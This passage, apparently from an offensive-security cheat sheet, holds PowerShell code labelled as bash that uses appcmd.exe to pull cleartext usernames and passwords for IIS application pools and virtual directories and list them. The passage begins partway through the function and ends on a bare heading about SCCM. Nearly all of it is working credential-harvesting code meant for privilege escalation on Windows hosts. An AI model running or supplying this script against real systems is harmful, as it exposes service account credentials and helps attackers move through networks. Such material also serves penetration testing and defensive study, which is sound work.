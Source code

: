 ```bash
# Check if credentials exists
if (($PoolPassword -ne "") -and ($PoolPassword -isnot [system.array])) {
# Add credentials to database
$Null = $DataTable.Rows.Add($PoolUser, $PoolPassword,'Application Pool','NA',$PoolName)
}
}

# Get list of virtual directories
Invoke-Expression "$Env:SystemRoot\System32\inetsrv\appcmd.exe list vdir /text:vdir.name" | ForEach-Object {

# Get Virtual Directory Name
$VdirName = $_

# Get username
$VdirUserCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list vdir " + "`"$VdirName`" /text:userName"
$VdirUser = Invoke-Expression $VdirUserCmd

# Get password
$VdirPasswordCmd = "$Env:SystemRoot\System32\inetsrv\appcmd.exe list vdir " + "`"$VdirName`" /text:password"
$VdirPassword = Invoke-Expression $VdirPasswordCmd

# Check if credentials exists
if (($VdirPassword -ne "") -and ($VdirPassword -isnot [system.array])) {
# Add credentials to database
$Null = $DataTable.Rows.Add($VdirUser, $VdirPassword,'Virtual Directory',$VdirName,'NA')
}
}

# Check if any passwords were found
if( $DataTable.rows.Count -gt 0 ) {
# Display results in list view that can feed into the pipeline
$DataTable |  Sort-Object type,user,pass,vdir,apppool | Select-Object user,pass,type,vdir,apppool -Unique
}
else {
# Status user
Write-Verbose 'No application pool or virtual directory passwords were found.'
$False
}
}
else {
Write-Verbose 'Appcmd.exe does not exist in the default location.'
$False
}
$ErrorActionPreference = $OrigError
}
```
### SCClient / SCCM
